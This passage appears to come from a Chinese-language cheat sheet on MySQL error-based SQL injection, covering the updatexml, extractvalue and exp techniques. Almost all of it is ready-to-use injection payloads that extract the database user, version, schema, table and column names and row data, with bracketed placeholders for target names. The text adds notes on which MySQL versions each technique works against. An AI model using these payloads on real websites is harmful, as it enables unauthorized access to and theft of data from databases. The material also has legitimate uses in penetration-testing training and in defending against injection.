 - distinct表示返回后面的内容不重复。
- 0x7e为波浪线，用于分隔。
- 0x3a为冒号，用于分隔。
- group_concat()会把结果按照输入的字段进行分组拼接，每组拼成一个字符串，组与组之间用逗号隔开，再拼接成一个完整的字符串。

update注入就常用updatexml函数来注入：

```
id=-1' or updatexml(1, concat(0x7e, version(), 0x7e), 1) -- -
```

#### 3. extractvalue报错注入

MySQL 大于等于5.1.5才能extractvalue报错注入。

```
# 获取基础信息
id=1' and extractvalue(1,concat(0x7e,user(),0x7e)) -- -
id=1' and extractvalue(1,concat(0x7e,database(),0x7e)) -- -
id=1' and extractvalue(1,concat(0x7e,version(),0x7e)) -- -

# 获取一个库名
id=1' and extractvalue(1,concat(0x7e,concat(0x7e,(select concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 0,1),0x7e),0x7e)) -- -

# 获取一个表名
id=1' and extractvalue(1,concat(0x7e,concat(0x7e,(select concat(0x7e, (select table_name),0x7e) FROM information_schema.tables where table_schema='[库名]' limit 0,1),0x7e),0x7e)) -- -

# 获取一个列名
id=1' and extractvalue(1,concat(0x7e,concat(0x7e,(select concat(0x7e, (select column_name),0x7e) FROM information_schema.columns where table_name='[表名]' limit 0, 1),0x7e),0x7e)) -- -

# 获取一行数据
id=1' and extractvalue(1,concat(0x7e,(select concat(0x7e, (select concat([字段1],0x3a,[字段2])),0x7e) FROM [库名].[表名] limit 0,1),0x7e)) -- -
```

#### 4. exp报错注入

目前测试MySQL 5.5可用，5.0、5.1、5.7、8.0均不能用

```
# 获取基础信息
id=1' and exp(~(select * from(select user())a)) -- -
id=1' and exp(~(select * from(select database())a)) -- -
id=1' and exp(~(select * from(select version())a)) -- -

# 获取一个库名
id=1' and exp(~(select * from(select concat(0x7e, (select schema_name),0x7e) FROM information_schema.schemata limit 0,1)a)) -- -

# 获取一个表名
id=1' and exp(~(select * from(select concat(0x7e, (select table_name), 0x7e) FROM information_schema.tables where table_schema='[库名]' limit 0,1)a)) -- -

# 获取一个列名
id=1' and exp(~(select * from(select concat(0x7e, (select column_name), 0x7e) FROM information_schema.columns where table_name='[表名]' limit 0,1)a)) -- -

# 获取一行数据
id=1' and exp(~(select * from(select concat(0x7e, (select concat([字段1],0x3a,[字段2])),0x7e) FROM [库名].[表名] limit 0,1)a)) -- -
```
